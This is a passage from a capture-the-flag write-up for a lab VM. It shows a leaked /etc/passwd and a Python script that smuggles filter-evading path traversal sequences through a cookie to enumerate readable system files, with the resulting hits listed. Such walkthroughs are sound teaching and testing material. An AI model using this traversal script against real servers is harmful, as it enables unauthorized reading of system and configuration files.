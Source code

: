 ```
mysql:x:105:109:MySQL Server,,,:/nonexistent:/bin/false
jack:x:1001:1001::/home/jack:/bin/sh
milk_4_life:x:1002:1002::/home/milk_4_life:/bin/sh
developers:x:1003:1003::/home/developers:/bin/sh
bazza:x:1004:1004::/home/bazza:/bin/sh
oj:x:1005:1005::/home/oj:/bin/sh
```

So yes we can escape the filter and take a look wherever we want (with the rights of the web server). Furthermore, I now have some more usernames (but I didn't get any more results using the same brute-force scripts seen above).  

I re-used the enumeration script leveraging the *include(*) function I used on the [LAMPSecurity CTF4]({% link _posts/2014-07-08-Solution-du-CTF-LAMPSecurity-CTF4.md %}), just modifying the place where the paths are injected :  

```python
import requests

fd = open("logs.txt")

while True:
    word = fd.readline()
    if not word:
        break
    word = word.strip()
    r = requests.get("http://192.168.1.29/super_secret_login_path_muhahaha/panel.php",
            headers={"cookie": "intruder=....//....//....//....//....//....//....//..../{0};".format(word)},
            allow_redirects=False)

    if int(r.headers['content-length']) != 239:
        print "Contenu trouve avec", word

fd.close()
```

And I get :  

```
Contenu trouve avec /var/log/lastlog
Contenu trouve avec /var/log/wtmp
Contenu trouve avec /var/run/utmp
Contenu trouve avec /etc/passwd
Contenu trouve avec /etc/group
Contenu trouve avec /etc/hosts
Contenu trouve avec /etc/motd
Contenu trouve avec /etc/issue
Contenu trouve avec /etc/crontab
Contenu trouve avec /etc/inittab
Contenu trouve avec /proc/version
Contenu trouve avec /proc/cmdline
Contenu trouve avec /etc/apache2/apache2.conf
Contenu trouve avec /etc/apache2/sites-enabled/000-default
Contenu trouve avec /etc/apache2/sites-available/default
Contenu trouve avec /etc/ssh/sshd_config
Contenu trouve avec /etc/mysql/my.cnf
Contenu trouve avec /etc/php5/apache2/php.ini
Contenu trouve avec /var/log/faillog
```
